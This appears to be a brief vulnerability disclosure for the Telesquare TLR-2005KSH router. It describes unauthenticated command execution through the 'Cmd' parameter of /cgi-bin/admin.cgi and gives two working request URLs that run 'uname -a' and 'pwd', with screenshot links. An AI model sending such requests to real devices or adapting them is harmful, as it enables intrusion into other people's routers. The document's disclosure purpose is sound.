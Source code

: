 # Telesquare TLR-2005KSH The router has an unauthorized remote command execution vulnerability

## Vulnerability Details：

By inputting the following payload to access vulnerable devices, an attacker can exploit this vulnerability to execute system commands unauthorized through the 'Cmd' parameter



/cgi-bin/admin.cgi?Command=sysCommand&Cmd=uname%20-a

![1734088238407](https://raw.githubusercontent.com/kklzzcun/route/main/TLR-2005KSH/assets/1734088238407.jpg)

/cgi-bin/admin.cgi?Command=sysCommand&Cmd=pwd

![1734088373076](https://raw.githubusercontent.com/kklzzcun/route/main/TLR-2005KSH/assets/1734088373076.jpg)

This vulnerability affects known product versions: 2.6.36 and later.

